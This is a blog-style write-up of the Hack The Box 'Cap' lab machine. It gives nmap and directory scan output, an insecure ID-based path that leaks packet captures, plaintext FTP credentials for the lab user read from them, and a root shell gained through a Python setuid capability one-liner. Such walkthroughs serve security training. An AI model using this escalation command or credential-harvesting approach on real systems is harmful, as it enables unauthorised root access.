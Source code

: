 ```yaml
---
layout: post
title: HTB - Cap
subtitle: Hack the box Cap machine writeup
category: writeup
thumbnail-img: /assets/img/writeup/HTB/cap/result.png
tags: [writeup, hackthebox, cap, linux]
author: Hong
---
```

![result](/assets/img/writeup/HTB/cap/result.png)
# nmap
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:15 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:10 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 23 Aug 2024 00:38:10 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
```
# gobuster
```
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17362]
/netstat              (Status: 200) [Size: 28308]
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/2]
```
nothing special with gobuster..  
But I noticed the directory path in /data/ changes with ID.  
For example, I downloaded pcap files for /data/1 and /data/2.  
# wireshark
I looked up /data/0 and downloaded the packet.  
I found the user credentials in FTP stream.  
![wireshark](/assets/img/writeup/HTB/cap/wireshark.png)
**nathan:Buck3tH4TF0RM3!**  
I logged in to the FTP service using the credentials and got the user flag.  
And since the SSH also uses the same password, I moved to SSH.  
# SUID enum
I couldn't get information from `sudo -l`  
I searched for SUID files like below.  
```
nathan@cap:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```
I went through them, but ended up with fruitless result.  
I decided to use a tool here.  
# python
After executing linPeas in the target machine, I found it has a python capability problem.  
[python capability](https://gtfobins.github.io/gtfobins/python/#capabilities) 

`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`  
The root shell will be opened with the command above.

# lesson learned
- capability problem can be easily solved by referencing gtfobins.
- linpeas searches for misconfigurations. However, it cannot be used in OSCP exam. [Check this](https://www.reddit.com/r/oscp/comments/mw4idk/heads_up_dont_use_linpeas_on_the_exam/)

